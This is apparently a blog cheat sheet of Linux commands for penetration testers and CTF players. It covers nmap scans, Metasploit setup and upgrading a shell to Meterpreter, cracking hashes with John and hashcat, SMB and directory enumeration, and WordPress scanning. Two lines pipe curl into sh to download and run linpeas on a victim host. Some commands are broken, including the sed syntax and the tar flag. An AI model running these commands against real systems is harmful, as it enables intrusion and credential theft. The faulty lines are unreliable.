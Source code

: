 ```yaml
---
title: Linux Commands for Hacking and Security
date: 2023-08-08
author: Abhinav Kumar
image: {
  src: "/images/bash.jpeg",
  alt: "Linux Commands for Everyday Hacking and Security",
}
description: Linux commands and shortcuts very often used by Hackers, Security professionals, CTF Players.
draft: false
category: Hacking 101
---
```


Linux commands that are often used by hackers, security professional and CTF players. We will avoid any payloads or oneliner exploits ( will cover in different page sometime).
Updated - October 02, 2023.

### Add Target to hosts file

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo '10.10.196.20 blue.thm' | sudo tee -a /etc/hosts
[sudo] password for abhinav: 
10.10.196.20 blue.thm
```

### Nmap

```bash
#for TCP Scan
sudo nmap -sC -sV -p- -T5 -Pn targethost

#for UDP Scan
sudo nmap -sU -sV -p- -T5 -Pn targethost

# Store scan results for ports separated by comma.
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ ports=$(nmap -p- --min-rate=1000 -T4 cronos.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')

# Check which ports are found
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo $ports
22,53,80,9227,19041,30100

# Pass the information in -p argument as $ports
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ sudo nmap -sC -sV -A -O -T5 -p$ports cronos.htb
```



## Metasploit

Start Metasploit with database
```bash
# Pass the information in -p argument as $ports
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ systemctl start postgresql

┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ msfdb init
Creating database user 'msf'
Enter password for new role:
Enter it again:
Creating databases 'msf' and 'msf_test'
Creating configuration file in /usr/share/metasploit-framework/config/database.yml
Creating initial database schema
```

### Metasploit Shell Upgrade to Meterpreter

```bash
sessions -u 3
sessions -u -1
use post/multi/manage/shell_to_meterpreter
run session=-1
```

Cracking hash with John

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ john hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt 
```

### Cracking hash with hashcat

Windows NTLM Hash
```bash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt.gz
```




## Extract Files

Gz Files

```bash
gunzip archive.gz
```

tar Files
```bash
tar –xvzf archive.tar.gz
```

## SSH Connection 

```bash
ssh username@host -oHostKeyAlgorithms=+ssh-dss
```


## Text Filter

```bash
grep -i #]- inlcude
grep -v #]- exclude
```
## SMB Enumeration

nmap

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse target_HOST
```

```bash
smbclient //IP/directory
```

Mount NFS Share

make directory locally and mount it
```bash
mkdir /mnt/sampleDIR
sudo mount IP:/folder /mnt/sampleDIR
```
## netcat

get version via banner
```bash
nc IP port
```
## Linpeas

# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

### Python Simple HTTP Server


```bash
python3 -m http.server 7777
curl 10.10.10.10/linpeas.sh | sh #Victim
```

### Wordpress CMS Vulnerabilty Scanning

```bash
wpscan --url https://brainfuck.htb --disable-tls-checks
```

## Directory Enumeration

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cronos.htb/FUZZ -mc 200,403 -c -t 400

                                                   
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ gobuster dir -u  http://cronos.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --threads 200 --quiet

```

## Reading a File

```bash
cat
head
head -20 filepathandname
tail filename
tail -20 filename
cat filename | grep "word_to_filter"
more
less

```

## Replace in Fil

```bash
sed /s/wordtoreplace/wordtoreplacewith/g /filepath > outputfilepath
```